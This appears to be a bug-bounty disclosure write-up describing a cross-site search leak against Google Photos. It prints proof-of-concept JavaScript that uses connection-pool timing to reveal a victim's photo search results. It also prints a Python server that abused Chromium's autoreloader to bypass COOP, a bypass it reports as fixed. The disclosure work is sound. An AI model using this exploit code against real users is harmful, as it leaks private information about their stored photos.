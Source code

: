 ```yaml
---
title: XS-Search on Google Photos
---
```

Google Photos is a service by Google, a subsidiary of Alphabet used to store and view user uploaded duck photos.

# XS-Leak (Awarded $1337)
This attack is documented at <https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/>  
Usage is `await search('duck')` to leak if a query exists (If victim took a photo of a duck)

```js
async function isConnected() {
 // Detect connection reuse for lh3.googleusercontent.com
 // No timing attack needed because of timing-allow-origin: *
 performance.clearResourceTimings();
 await fetch('https://lh3.googleusercontent.com/', {mode: 'cors'});
 await new Promise(r => setTimeout(r, 1000));
 let data = performance.getEntries().pop();
 return (data.connectStart === data.startTime);
}

async function search(query) {
 let w = open();
 // Close connections using idle timeout.
 await new Promise(r => setTimeout(r, 30000));
 // First try is free, next needs COOP or user activation bypass.
 w.location = 'https://photos.google.com/search/'+query;
 await new Promise(r => setTimeout(r, 5000));
 return await isConnected();
}
```

# COOP bypass (Fixed, Awarded $3000)
Abuses the Chromium autoreloader using a invalid server response, also worked with max redirect limit.
```js
from http.server import BaseHTTPRequestHandler, HTTPServer

sessions = set()

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if (self.path not in sessions):
            self.send_response(200)
            self.send_header("Cache-Control", "no-store")
            message = "<invalid>"
            self.wfile.write(bytes(message, "utf8"))
            self.end_headers()
            sessions.add(self.path)
        else:
            self.send_response(307)
            self.send_header('Cache-Control', 'no-store')
            self.send_header('Location','https://photos.google.com/search/duck')
            self.end_headers()
            sessions.remove(self.path)

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```
This was fixed in <https://bugs.chromium.org/p/chromium/issues/detail?id=1357366>

